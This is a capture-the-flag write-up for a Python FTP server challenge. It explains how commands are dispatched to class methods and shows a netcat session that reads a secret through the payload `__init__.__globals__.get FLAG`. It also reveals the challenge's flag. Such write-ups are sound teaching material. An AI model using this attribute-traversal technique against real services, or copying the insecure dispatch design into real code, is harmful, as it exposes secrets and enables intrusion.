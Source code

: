 # SimpleFTPServer
## Background
This challenge is based on [an old python gist](https://gist.github.com/ZoeS17/467387af22de19c028f0430dcfc5ada8) I found a while ago whilst trying to setup a basic, short-lived FTP server. It has an unusual approach to dealing with the extensible nature of FTP... by tying it to the extensible nature of a Python class.

That is, all the FTP commands (i.e. `USER`, `PASS`, `PWD`) were methods on the python class named identically (i.e. `USER()`, `PASS()`, `PWD()`) which when called recieved the user's full data string minus the original command.

So, if an FTP user called the command:

```ftp
USER anonymous
```

The python script would effectively call:

```python
FTPServerThread.USER("anonymous")
```

Interesting approach, right? In any other language this might be a clever way to do it. Though not so in python, where everything is an object and every object has hidden variables used for internal purposes and there is no access-control on code. Suddenly this clever method for determining which method to call has inadvertently opened you up to calling any method referencable in dot notation.

## Attack
**From the attacker's view:** First things first, find the flag location. Now we don't know what the username & password is, but it doesn't matter because it still seems to work regardless. Looking around the file system, we find and interesting folder - `/chal`, which has two files `flag.txt` and `pwn`. Sweet! Let's download `flag.txt`.

```bash
~ nc localhost 1337
220 vsFTPd (v2.3.4) ready...
LIST
150 Here comes the directory listing.
drwxr-xr-x 1 user group 4096 Aug 04 02:02 usr
drwxr-xr-x 1 user group 4096 Aug 04 02:06 lib64
drwxr-xr-x 1 user group 4096 Aug 21 01:13 lib
drwxr-xr-x 1 user group 4096 Aug 21 01:14 bin
drwxr-xr-x 1 user group 4096 Aug 21 01:12 kctf
drwxr-xr-x 1 user group 4096 Aug 22 00:28 chal
226 Directory send OK.
CWD chal
250 OK.
LIST
150 Here comes the directory listing.
-rwxr-xr-x 1 user group 7151 Aug 22 00:28 pwn
-rw-r--r-- 1 user group 27 Aug 20 00:25 flag.txt
226 Directory send OK.
RETR flag.txt
150 Opening data connection.
226 Transfer complete.
DUCTF{- Actually no, I don't feel like giving that up yet. ;)
```

Damn, not quite. Ok, well what's `pwn` then?

```bash
RETR pwn
150 Opening data connection.
226 Transfer complete.
#!/usr/bin/env python3
# Adapted from: https://gist.github.com/ZoeS17/467387af22de19c028f0430dcfc5ada8#file-ftpserver-py-L83
# FTP spec comments borrowed from Wikipedia

import os,time,operator,sys
allow_delete = False
local_ip = '0.0.0.0'
[... snip ...]
```

> **NOTE:** Since this isn't a normal FTP server it won't download via the usual FTP method of creating a second socket and sending it over that, instead it will just throw the entire source code directly into the control socket, hence the use of netcat rather than something like ftpclient.

Looks like we got the source code of an FTP server. Of *this* ftp server, maybe? We can confirm it's the same python program and with some random typing in the netcat seession, where we can get an error referencing `FTPServerThread` and attributes. The same class that the above source code references.

```
~ nc localhost 1337
220 vsFTPd (v2.3.4) ready...
USER anonymous
331 OK.
PASS anonymous
530 Incorrect.
AAaaaa
500 Sorry. 'FTPServerThread' object has no attribute 'AAaaaa'
```

So looks like this entire thing is just a Python class, and that we call the FTP commands based on attributes of the same name on said class - but there is nothing preventing us call *other* non-FTP command attributes.

Huh, and it looks like there is a FLAG in the global scope of the program. I reckon that's what we're searching for.

One attribute that every python class has is `__init__`. This is the classes "initalization function" for all intents and purposes.

Let's try it...

```
➜  ~ nc localhost 1337
220 vsFTPd (v2.3.4) ready...
__init__
500 Sorry. FTPServerThread.__init__() takes 1 positional argument but 2 were given
```

A different error! Huzzah! Looks like we need to give a different amount of arguments though.

```
__init__ param1 param 2
500 Sorry. FTPServerThread.__init__() takes 1 positional argument but 2 were given
```

Interesting, looks like we give the same amount of arguments no matter what we put in. I wonder if our command is being split as a string, where the first "word" is the method name and everything after it is passed as a single String object.

Anyway, if you search around, you might find [some hacking blogs](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#globals-and-locals) discussing about how every function in python has an attribute called `__globals__` which tracks all variables in their globals scope.

Checking `__init__.__globals__` in a local python interpreter, we see it's a [dictionary](https://docs.python.org/3/tutorial/datastructures.html#dictionaries).

```python
➜  ~ python3
Python 3.11.4 (main, Jun 20 2023, 16:59:59) [Clang 14.0.3 (clang-1403.0.22.14.1)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> FLAG="i_want_this"
>>> class MyClass():
...     def __init__(self):
...             pass
... 
>>> x = MyClass()
>>> x.__init__.__globals__
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, 'FLAG': 'i_want_this', 'MyClass': <class '__main__.MyClass'>, 'x': <__main__.MyClass object at 0x10bb2d190>}
```

We can use `dir()` on this to find all attributes on it

```python
>>> dir(x.__init__.__globals__)
['__class__', '__class_getitem__', '__contains__', '__delattr__', '__delitem__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__ior__', '__iter__', '__le__', '__len__', '__lt__', '__ne__', '__new__', '__or__', '__reduce__', '__reduce_ex__', '__repr__', '__reversed__', '__ror__', '__setattr__', '__setitem__', '__sizeof__', '__str__', '__subclasshook__', 'clear', 'copy', 'fromkeys', 'get', 'items', 'keys', 'pop', 'popitem', 'setdefault', 'update', 'values']
```

Oh look, the dictionary has an interesting looking function attribute `get`! Looking at the [official python documentation](https://docs.python.org/3/library/stdtypes.html#dict.get), looks like it's a *function* that takes *one string* and then does something. Let's see if we can call `FTPServerThread.__init__.__globals__.get()` with the string `FLAG` and see if it gives us something interesting.

```bash
➜  ~ nc localhost 1337
220 vsFTPd (v2.3.4) ready...
__init__.__globals__.get FLAG
DUCTF{15_this_4_j41lbr34k?}
```

---

> I hope I didn't leave any **FLAG** open to the **global** internet...

Ohhhh I get it now...